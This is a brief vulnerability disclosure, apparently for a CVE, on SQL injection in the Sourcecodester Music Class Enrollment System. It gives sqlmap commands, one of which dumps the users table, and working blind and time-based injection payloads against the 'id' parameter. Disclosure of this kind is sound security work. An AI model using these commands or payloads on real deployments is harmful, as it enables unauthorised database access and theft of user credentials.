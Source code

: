 # Sourecodester Music Class Enrollment System SQL Injection vulnerability


Affected Software: https://www.sourcecodester.com/php/15362/music-class-enrollment-site-phpoop-free-source-code.html

Vulnerable path: http://localhost/mces/?p=class/view_class&id=4

![image](https://github.com/jadu101/CVE/assets/76433661/09db7303-c570-4296-bced-f0cab23d95a1)



Tool Used: SQLmap

Commands to recreate:

`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/7833ceba-4326-4bb0-b454-67962e45c746)



```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=class/view_class&id=4' AND 2160=2160 AND 'CscS'='CscS

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=class/view_class&id=4' AND (SELECT 6865 FROM (SELECT(SLEEP(5)))TZfN) AND 'sHBo'='sHBo
---
```

`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch –dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/290f3bd2-3d3f-474e-b4a1-ae2458edacb7)



`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch -D mces_db -T users –dump`

![image](https://github.com/jadu101/CVE/assets/76433661/5802f597-a725-48b6-beb4-f86bdd959fb2)




